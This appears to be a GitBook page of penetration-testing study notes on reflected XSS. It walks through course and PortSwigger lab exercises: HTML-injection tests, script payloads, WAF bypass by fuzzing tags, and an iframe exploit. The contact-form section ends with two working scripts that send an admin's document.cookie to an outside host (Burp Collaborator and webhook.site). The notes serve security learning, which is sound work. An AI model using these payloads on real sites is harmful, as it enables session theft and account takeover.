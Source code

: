 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Reflected

{% hint style="info" %}
Reflected XSS occurs when malicious scripts are reflected off a web server, executed immediately, and displayed in the user's browser, typically via URL parameters or form inputs.
{% endhint %}

{% hint style="danger" %}
This can lead to unauthorized actions, data theft, or redirection to malicious sites, as the script runs in the context of the trusted website.
{% endhint %}

## Reflected Server XSS

> _The example below is based on OffSec's_ [_WEB-200_](https://www.offsec.com/courses/web-200/) _course._

This type of XSS is often found in `GET` requests and is based on the fact that the user trusts the domain. The app below has a search functionality where the search term is passed through a `GET` request and the `s` parameter. It is also reflected on the page via a `div` element (Figure 1).

<figure><img src="../../../../.gitbook/assets/offsec_xss_rs1.png" alt=""><figcaption><p>Figure 1: Searching for potential XSS entry points.</p></figcaption></figure>

A good starting point for finding XSS, is to first test for HTML injection. The latter has less potential for error, however, being able to inject HTML doesn't guarantee an XSS vulnerablity (Figure 2).

```html
<h1>test</h1>
```

<figure><img src="../../../../.gitbook/assets/offsec_xss_rs2.png" alt=""><figcaption><p>Figure 2: Testing for HTML injection.</p></figcaption></figure>

Since the app is vulerable to HTML injection, we can proceed testing for XSS (Figure 3).

```javascript
<script>prompt("XSS")</script>
```

<figure><img src="../../../../.gitbook/assets/offsec_xss_rs3.png" alt=""><figcaption><p>Figure 3: Testing for XSS.</p></figcaption></figure>

If our target clicks the link that includes the payload, it will be executed on their browser.

```html
search.com/search.php?s=%3Cscript%3Eprompt%28%22XSS%22%29%3C%2Fscript%3E
```

We can confirm that the server initiated the appending of the payload the to document by intercepting the request. The client executed the payload, but did not append it (Figure 4).\


<figure><img src="../../../../.gitbook/assets/offsec_xss_rs4.png" alt=""><figcaption><p>Figure 4: Confirming the server-side reflected XSS.</p></figcaption></figure>

## Filter Bypass

> _The example below is based on PortSwigger's_ [_Reflected XSS into HTML context with most tags and attributes blocked_](https://portswigger.net/web-security/cross-site-scripting/contexts/lab-html-context-with-most-tags-and-attributes-blocked) _lab._

In this web application, there is a search functionality and the search term is reflected back into the page within HTML tags (Figure 1).

<figure><img src="../../../../.gitbook/assets/web_reflected_xss_1.png" alt=""><figcaption><p>Figure 1: Identifying where our input is reflected.</p></figcaption></figure>

When our payload is inside HTML tags, we can simply add new HTML tags to trigger it. It seems that there is a WAF[^1] blocking specific tags (Figure 2).

<figure><img src="../../../../.gitbook/assets/web_reflected_xss_2.png" alt=""><figcaption><p>Figure 2: Common JavaScript tags seem to be blocked by a WAF.</p></figcaption></figure>

We can create a tag wordlist using PortSwigger's [XSS Cheatsheet](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet), and fuzz the application to see which tags are allowed (Figure 3).

<figure><img src="../../../../.gitbook/assets/web_reflected_xss_3.png" alt=""><figcaption><p>Figure 3: Fuzzing JavaScript tags with Burp's Intruder.</p></figcaption></figure>

Trying the `<body>` tag results in another verbose error message (Figure 4).

<figure><img src="../../../../.gitbook/assets/web_reflected_xss_4.png" alt=""><figcaption><p>Figure 4: Another verbose error message informing us about a blacklisted attribute.</p></figcaption></figure>

We can repeat the same process and enumerate allowed attributes (Figure 5).

<figure><img src="../../../../.gitbook/assets/web_reflected_xss_5.png" alt=""><figcaption><p>Figure 5: Fuzzing JavaScript attributes with Burp's Intruder.</p></figcaption></figure>

Now, all we have to do is delivering our XSS payload to the victim via the exploit server (Figure 6).

{% code overflow="wrap" %}
```javascript
<iframe src="https://0a64008c03c63be4804ada980065007b.web-security-academy.net/?search=%3Cbody+onresize%3Dprint%28%29%3E" onload=this.style.width='1em'>
```
{% endcode %}

<figure><img src="../../../../.gitbook/assets/web_reflected_xss_6.png" alt=""><figcaption><p>Figure 6: Delivering the exploit to the victim via an <code>iframe</code>.</p></figcaption></figure>

## Within JS

> _The example below is based on PortSwigger's_ [_Reflected XSS into a JavaScript string with angle brackets HTML encoded_](https://portswigger.net/web-security/cross-site-scripting/contexts/lab-javascript-string-angle-brackets-html-encoded) _lab._

This time the search keyword ends up within a block of JS[^2] code (Figure 7).

<figure><img src="../../../../.gitbook/assets/web_xss_reflected_7.png" alt=""><figcaption><p>Figure 7: Identifying the context of a potential XSS flaw.</p></figcaption></figure>

We can treat this similar to an [SQLi](../sqli/) flaw and try injecting JS[^3] code to the search keyword (Figure 8).

<figure><img src="../../../../.gitbook/assets/web_xss_reflected_8.png" alt=""><figcaption><p>Figure 8: Achieving XSS via JavaScript Injection.</p></figcaption></figure>

## Contact Form

> _The example below is based on TCM's_ [_Practical Bug Bounty_](https://academy.tcm-sec.com/p/practical-bug-bounty) _course._

This application has a Support Ticket functionality and we also have access to an admin account that will review the submitted ticket. To test for stored XSS will use FireFox's [Multi-Account Containers](../../authorization/automated-a-b-testing.md#multi-account-containers) (Figure 9).

<figure><img src="../../../../.gitbook/assets/web_xss_stored_cookie_1.png" alt=""><figcaption><p>Figure 9: Setting up FireFox's containers for XSS testing.</p></figcaption></figure>

We will a web server, such as Burp's Collaborator or [Webhook](https://webhook.site/), to receive the request along with the admin's cookie (Figure 10 & 11).

{% code overflow="wrap" %}
```javascript
// collaborator payload
<script>
fetch('https://705jjd45qk9l1pb4rhns097xgomfa5yu.oastify.com', {
method: 'POST',
mode: 'no-cors',
body:document.cookie
});
</script>

// webhook payload
<script>var i = new Image; i.src="https://webhook.site/094ef770-e736-4b31-a3cb-34be690ff1b9/?"+document.cookie</script>
```
{% endcode %}

<figure><img src="../../../../.gitbook/assets/web_xss_stored_cookie_collaborator.png" alt=""><figcaption><p>Figure 10: Using Burp's Collaborator to steal the admin's cookie.</p></figcaption></figure>

<figure><img src="../../../../.gitbook/assets/web_xss_stored_cookie_webhook.png" alt=""><figcaption><p>Figure 11: Figure 10: Using Webhook to steal the admin's cookie.</p></figcaption></figure>

[^1]: Web Application Firewall

[^2]: JavaScript

[^3]: JavaScript
